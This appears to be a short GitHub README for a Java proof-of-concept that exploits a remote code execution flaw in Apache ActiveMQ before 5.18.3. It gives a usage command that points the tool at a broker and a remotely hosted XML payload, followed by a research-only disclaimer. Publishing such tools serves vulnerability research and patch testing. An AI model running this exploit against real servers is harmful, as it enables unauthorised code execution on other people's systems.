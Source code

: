 # activemq_poc
Apache ActiveMQ (版本 &lt; 5.18.3) RCE

使用jdk11
![image](https://github.com/Fw-fW-fw/activemq_Throwable/assets/66824584/0685c53d-59b6-458e-ad0a-d2f5b5cc46d0)


Usage: java activemq_poc.jar <ip> <port> <urlfile_xmlpoc>

eg: java -jar activemq_poc.jar 127.0.0.1 61616 http://127.0.0.1:8000/poc.xml

免责声明： 本工具仅供安全研究使用，请勿利用从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
